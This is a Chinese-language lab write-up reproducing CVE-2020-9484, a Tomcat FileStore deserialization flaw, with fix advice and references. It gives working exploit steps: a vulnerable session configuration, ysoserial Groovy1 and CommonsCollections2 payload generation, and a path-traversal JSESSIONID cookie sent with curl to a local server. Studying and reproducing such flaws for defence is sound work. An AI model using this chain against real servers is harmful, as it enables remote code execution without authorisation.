 # CVE-2020-9484:Apache Tomcat代码问题漏洞
## 一、漏洞介绍
北京时间2020年05月20日，Apache官方发布了 Apache Tomcat 远程代码执行 的风险通告，该漏洞编号为 CVE-2020-9484。

Apache Tomcat 是一个开放源代码、运行servlet和JSP Web应用软件的基于Java的Web应用软件容器。当Tomcat使用了自带session同步功能时，使用不安全的配置（没有使用EncryptInterceptor）会存在反序列化漏洞，攻击者通过精心构造的数据包， 可以对使用了自带session同步功能的Tomcat服务器进行攻击。

这次是由于错误配置和 org.apache.catalina.session.FileStore 的 LFI 和反序列化漏洞引起的 RCE。

当配置了 org.apache.catalina.session.PersistentManager 并且使用 org.apache.catalina.session.FileStore 来储存 session 时, 用户可以通过 <strong><font color='red'>org.apache.catalina.session.FileStore 的一个 LFI 漏洞来读取服务器上任意以 .session结尾的文件。然后通过反序列化来运行 .session 文件。</font></strong>


默认情况是使用 org.apache.catalina.session.StandardManager, 将 session储存到内存，而 PersistentManager 会将不常用的 session swap out, 从而减少内存占用。

参考：https://www.safedog.cn/news.html?id=4456

## 二、影响版本

Apache Tomcat: 10.0.0-M1 to 10.0.0-M4

Apache Tomcat: 9.0.0.M1 to 9.0.34

Apache Tomcat: 8.5.0 to 8.5.54

Apache Tomcat: 7.0.0 to 7.0.103

## 三、先决条件

1. PersistentManager 使用了FileStore
2. 攻击者能够上传带有任意内容的文件，可以控制文件名并知道上传文件的位置
3. 类路径中有一些小工具可用于Java反序列化攻击，如groovy-2.3.9（创建文件）、CommonsCollections2（弹出计算器）

## 四、漏洞复现

需要环境：虚拟机、kali系统

安装tomcat需要java环境，实验时请自行安装

#### 下载安装tomcat，安装在/usr/local/tomcat

```bash
cd /usr/local
mkdir tomcat
wget https://repo1.maven.org/maven2/org/apache/tomcat/tomcat/10.0.0-M4/tomcat-10.0.0-M4.tar.gz
tar -zxvf tomcat-10.0.0-M4.tar.gz
```
#### 修改配置文件

注：若配置文件中无此配置，则说明不存在此漏洞
```bash
cd apache-tomcat-10.0.0-M4/conf
vim context.xml
```
添加下列配置
```bash
<Manager className="org.apache.catalina.session.PersistentManager">
    <Store className="org.apache.catalina.session.FileStore" directory="/tomcat/sessions/"/>
</Manager>
```
![1](./images/1.png)

#### 下载反序列化相关工具

1. groovy

`wget https://repo1.maven.org/maven2/org/codehaus/groovy/groovy/2.3.9/groovy-2.3.9.jar`

将groovy-2.3.9.jar 放入/usr/local/tomcat/lib目录下（ysoserial使用Groovy1命令需要的插件）

![2](./images/2.png)

2. ysoserial

`git clone https://github.com/frohoff/ysoserial.git`

#### 启动tomcat

```bash
cd ~/apache-tomcat-10.0.0-M4/bin
./catalina.sh start
```
![3](./images/4.png)

#### 攻击过程

1. 生成payload

`java -jar ysoserial.jar Groovy1 "touch /tmp/2333" > /tmp/test.session`
![4](./images/3.png)

2. 使用test.session

在浏览器抓取首页的包添加`Cookie: JSESSIONID={ ../../../../../tmp/test }`
{}中为test.session路径

目标是在服务器上执行命令`touch /tmp/2333`，<font color='red'>假设 .session文件已经被上传到服务器的已知位置。</font>

 linux

`curl 'http://127.0.0.1:8080/index.jsp' -H 'Cookie: JSESSIONID=../../../../../tmp/test'`

![5](./images/5.png)
此处网上复现皆为127.0.0.1，原因是<font color='red'>这里主要是 FileStore 的 LFI 漏洞可以反序列化任意路径上的 .session 文件, 如果同时存在 文件上传漏洞的话就是 RCE 了</font>

#### CommonsCollections2

CommonsCollections2不用下载
`java -jar ysoserial.jar CommonsCollections2  "{ /Applications/Calculator.app/Contents/MacOS/Calculator }" > /tmp/test2.session`
![6](./images/6.png)

## 五、修复建议

修复方式就是升级,或者配置WAF，过滤掉../之类的字符串，或者不使用 FileStore

## 六、参考文章

1. https://www.freebuf.com/articles/web/242782.html
2. https://www.safedog.cn/news.html?id=4456
3. https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/
4. https://y4er.com/posts/cve-2020-9484-tomcat-session-rce/#%E9%85%8D%E7%BD%AEtomcat%E8%B0%83%E8%AF%95%E7%8E%AF%E5%A2%83
5. https://github.com/masahiro331/CVE-2020-9484   docker环境
